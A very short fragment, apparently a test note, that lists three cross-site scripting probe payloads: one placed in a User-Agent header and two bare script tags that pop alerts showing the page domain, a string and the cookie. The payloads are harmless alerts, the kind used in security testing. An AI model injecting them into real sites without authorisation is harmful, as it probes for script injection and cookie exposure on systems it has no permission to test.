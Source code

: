 # test

User-Agent:<script>alert(document.domain)</script>
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>